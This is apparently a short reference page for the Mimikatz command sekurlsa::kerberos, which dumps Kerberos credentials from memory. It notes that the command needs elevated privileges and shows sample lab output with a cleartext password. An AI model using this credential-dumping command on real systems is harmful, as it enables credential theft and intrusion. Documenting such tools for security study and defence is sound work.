 # kerberos

It lists Kerberos credentials.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::kerberos

Authentication Id : 0 ; 135255778 (00000000:080fd6e2)
Session           : RemoteInteractive from 3
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/27/2021 1:22:05 PM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
        kerberos :
         * Username : m3g9tr0n
         * Domain   : HACKLAB.LOCAL
         * Password : Super_SecretPass1!
```
